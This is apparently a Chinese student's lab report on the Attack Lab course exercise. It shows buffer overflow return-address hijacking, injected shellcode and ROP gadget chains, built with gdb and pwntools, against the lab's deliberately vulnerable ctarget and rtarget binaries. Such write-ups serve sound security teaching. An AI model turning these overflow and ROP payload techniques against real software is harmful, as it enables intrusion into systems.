<p align="center" style="font-size:30px">Target Lab Report</p>

### 一、实验内容

利用代码注入和返回地址劫持（code injection and return-oriented programming）漏洞将程序运行路径调整到目标路径上来。

### 二、实验目的

理解缓冲区溢出攻击的危险性。

### 三、实验环境

- VMware虚拟机内

- 使用 gdb 的 pwndbg 插件，hyper 终端分栏辅助显示。

  

- **pwndbg 使用 INTEL 语法，编写的 shellcode 也使用 INTEL 语法**

- 使用 python2 pwntools 辅助

#### 四、实验流程

##### 术语：

- shellcode 即注入的汇编指令，由于在攻击中一般用于 getshell，故得名。
- payload 即攻击字符串，用于执行一次有效攻击。

**ctarget 中 3 个目标：**

1. 首先阅读该实验的官网指导，明确目标为将返回地址劫持为有 `touch` 字样的函数，并了解到目标是 gets 函数的栈溢出。

2. 试运行，找到指导提示中的 Gets 函数。

   

3. rsp 降低 0x28 并作为参数传入，可知字符数组的长度。填入 0x28 个字符后可以操作返回地址，比如我们将填入 40 个 a 之后的返回地址位置手动改成 touch1 函数的地址

   ```shell
   pwndbg> print *(int)($rsp + 0x28) = 0x4017c0  # 把当前 rsp+0x28 位置的地址改为 touch1 
   ```

4. 继续运行可以满足要求。

5. 在 python 中构建 payload 并写入文件

   ```python
   In [1]: from pwn import *
   
   In [2]: f = open("string1", "w")
   
   In [3]: f.write("a"*0x28 + p32(0x4017c0)) # 40个a后填入转换为字符串的返回地址并写入文件。
   
   In [4]: f.close()
   ```

6. 在命令行中使用管道符将字符串传递入执行文件

   

7. 下一个目标，由提示代码可知，需要将 cookie 塞入 edi 再进行 touch2 调用。即需要写一段 shellcode 去运行。

   ```c
   void touch2(unsigned val)
   {
       vlevel = 2; /* Part of validation protocol */
   	if (val == cookie) {
   		printf("Touch2!: You called touch2(0x%.8x)\n", val);
   		validate(2);
   	} else {
   		printf("Misfire: You called touch2(0x%.8x)\n", val);
   		fail(2);
   	}
   	exit(0);
   }
   ```

   本来如果没有 vlevel 变量，完全可以直接跳转到 validate 函数去运行。但如果有的话，必须运行自己的代码修改寄存器或者内存的值再跳转到 touch2 运行。

   

8. 因此可以有两种方案，一个是获取 cookie 装入 edi，一个是将数字 2 填入 vlevel 变量的目标地址，分别对应如下两个 payload：

   

9. 将其转换为机器码后填补后续空位到 40 字节，接两个目标返回地址，先是字符数组开头地址，随后是 touch2 的地址（第二种方案直接跳转到判断之后）
	
	```gas
   Dump of assembler code for function touch2:
      0x004017ec <+0>:     sub    rsp,0x8		# 第一方案修改eip之后跳转到这里
      0x004017f0 <+4>:     mov    edx,edi
      0x004017f2 <+6>:     mov    DWORD PTR [rip+0x202ce0],0x2    # 0x6044dc <vlevel>
      0x004017fc <+16>:    cmp    edi,DWORD PTR [rip+0x202ce2]    # 0x6044e4 <cookie>
      0x00401802 <+22>:    jne    0x401824 <touch2+56>
      0x00401804 <+24>:    mov    esi,0x4030e8 # 第二种方案修改上面的<vlevel>处的值后跳转到												 这里
      0x00401809 <+29>:    mov    edi,0x1
      0x0040180e <+34>:    mov    eax,0x0
      0x00401813 <+39>:    call   0x400df0 <__printf_chk@plt>
      0x00401818 <+44>:    mov    edi,0x2
      0x0040181d <+49>:    call   0x401c8d <validate>
      ...
   ```



10. 管道传入：

    

11. 再看 touch 3，vlevel 验证机制和 touch 2 中的一样脆弱，所以修改上面第二种方案的 payload 可以直接 PASS。

12. 正常解法：本题要求 cookie 的 16 进制字符串表示匹配。所以先把16进制的字符串存在栈中，再调用目标函数：

13. 这里先给出 shellcode：

    ```gas
     sub rsp, 48							# 避免数据冲毁代码
     push 0x61663739						# 64位push指令没有办法直接push64位的立即数，且字											  符串尾部需要0。所以先把后四个字符“97fa”填入栈										  中，高32位自动补0
     mov DWORD PTR [rsp-0x4], 0x39623935	# 这里只好使用指定地址的赋值方式填入四个字节
     sub rsp, 0x4							# 再移动栈顶
     mov rdi, rsp							# 预先把字符串开头放入传参寄存器
     push 0x4018fa							# 装填 touch3 地址，返回
     ret
    ```

    最终效果：

    

**rtarget 中 3 个目标：**

1. 第一题和上面完全一致，返回地址都是相同的。故使用同一个文件 string1 即可。

2. 第二题，rop 即把所需的数据放在栈上，在 esp 指向该内存时使用 `pop <reg>` 将数据存于指定寄存器。比如对比 string2，我们可以先覆盖返回地址为一个 gadget 的地址，在返回地址后放入 cookie，只需要找到 pop edi 和 ret 命令即可将 cookie 放入寄存器。最后跟上 touch2 的地址即可。

   ```python
   In [12]: payload = "a"*40 + p64(0x40141b) + p64(0x59b997fa) + p64(0x4017ec)
                       占位      gadget 地址        cookie 值        touch2 地址
   In [13]: save('stringr2', payload)
   ```



3. 第三题要求可以使用 `start_farm` 到`end_farm` 中的所有函数做 rop 攻击。而字符串内存地址只能来源于 rsp 栈标记，而 rsp 又罕见直接赋给 rdi 的情况，所以需要寄存器之间中转。rax 与其他寄存器之间的关系一般比较紧密，所以可以考虑以此为中转。如果考虑直接将当时的 rsp 所指位置存放字符串并将地址经中转转移到 rdi，需要有退栈操作保证该字符串不做为返回值被使用，而该题没有这种条件。又观察到 farm 中给出许多 lea 指令：

   

   其中 rdi + rsi 是可以利用的，我们可以将 rsp 的值移动入 rdi，在栈中计算好字符串偏移量，将值 pop 赋给 rsi。最后通过 lea 寻址命令让 rax 指向字符串地址。（其实只有 rax 才能保存 rsp 的长度，这里只是在 farm 中搜索 rop 可以利用的字符串的搜索结果）。

   rop 段如下：

   ```gas
   mov rax, rsp
   ret
   mov rdi, rax
   ret
   pop rsi
   ret
   lea rax, [rdi + rsi]
   ret
   mov rdi, rax
   ret
   ```

   构造 payload 如下：

   ```python
   payload = "59b997fa" + "\x00"*32 + p64(0x401a06) + p64(0x4019a2) + p64(0x401383) +\ 
   		    字符串    字符串尾0与占位     地址1            地址2            地址3
             p64(0xFFFFFFFFFFFFFFD0) + p64(0x4019d6) + p64(0x4019a2) + p64(0x4018fa) 偏移量-48（避免检验函数栈破坏字符串所以靠后放置）地址4          地址5            touch3
   ```

   结果：

   

   （这里实际上没有按照规则来，0x401383 这个地址不属于 farm 的范围，而是直接搜索 text 段范围得到的 gadget。）

#### 五、总结

​		本次实验总体上收获很多，比如 rop 的概念在半年前就听说过，真正完成这个实验才了解其原理和手段，即多次控制返回值进行片段式攻击。当然顺便也熟练了对 pwndbg 的使用，了解了 gdb 的 reverse-debugging。在反复尝试中揭开 pwn 领域的未知迷雾，还是很令人兴奋的。

​		（差点把 32 位的实验也做一遍）